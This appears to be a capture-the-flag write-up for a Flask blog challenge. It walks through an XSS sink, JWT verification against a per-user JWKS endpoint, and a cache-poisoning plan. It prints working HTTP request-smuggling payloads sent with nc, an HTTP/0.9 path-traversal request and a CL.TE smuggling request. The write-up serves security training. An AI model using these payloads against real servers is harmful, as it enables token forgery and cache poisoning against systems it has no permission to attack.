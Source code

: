 **The Flask application** is just a blog website. Users can sign up their account and post something on the blog. There is a possible way to exploit XSS at the blog template in which the array of post is controllable by users.

```bash
# post.html

{{ post[0] | safe }}{{ post[1] }}
```

Most important, **the flag is served at the endpoint of ‘/admin/flag’.** To get it, an effective JWT token is necessary. In the JWT verification process, the application first get users’ JWK from the fixed endpoint ‘/{user_id}/.well-known/jwks.json’, and then use the JWK to verify the signature of users’ JWT. 

Our first step should be to replace our JWK with a controllable one, then sign the JWT with the private key we created. This process involves modifying the “user” value in the JWT to “admin”. Finally get the flag from the endpoint of `/admin/flag`.

## Exploitation guess

To that point, we can combine HTTP request smuggling and  HTTP cache poisoning attacks to cache the /{user_id}/.well-known/jwks.json’ with our self-crafted content.

However, I encountered challenges in implementing HRS on the target. I tried all the exploitation methods on the [blog above](https://grenfeldt.dev/2021/10/08/gunicorn-20.1.0-public-disclosure-of-request-smuggling/), but it didn’t work.

```bash
$ echo -en "GET /admin/flag HTTP/1.1\r\nHost: chunky.chals.sekai.team:8080\r\nDummy: x\nContent-Length: 28\r\n\r\nGET /admin HTTP/1.1\r\nDummy: GET / HTTP/1.1\r\nHost: localhost:8080\r\n\r\n" | nc chunky.chals.sekai.team 8080

echo -en "GET / HTTP/1.1\r\nHost: localhost:8080\r\nDummy: x\nContent-Length: 28\r\n\r\nGET /admin HTTP/1.1\r\nDummy: GET / HTTP/1.1\r\nHost: localhost:8080\r\n\r\n" | nc chunky.chals.sekai.team 8080

```

Finally, find out how to solve this challenge.

- Approach 1: http 0.9 and file traversal

```bash
GET /{user_id}/.well-known/jwks.json ../../../../{user_id}/{post_id}

#Leveraging http/0.9 and file traversal. Do notice that the http response in HTTP 0.9 doesn't have http response header. So you need to craft http response header in your payloads.
```

- Approach 2: CL.TE HRS [https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00](https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00)

```bash
GET /just_random_cache_key HTTP/1.1
Host: localhost
Content-Length: 106
transfer-encoding: chunked

0

GET /post/63d71c38-8aac-4463-84df-93973029c93c/210bef4b-c993-4cb2-a7b9-1769ed3af21b HTTP/1.1
Dummy: GET /623d171c38-8aac-4463-84df-93973029c93c/.well-known/jwks.json HTTP/1.1
Host: localhost
(a blank line here)

```
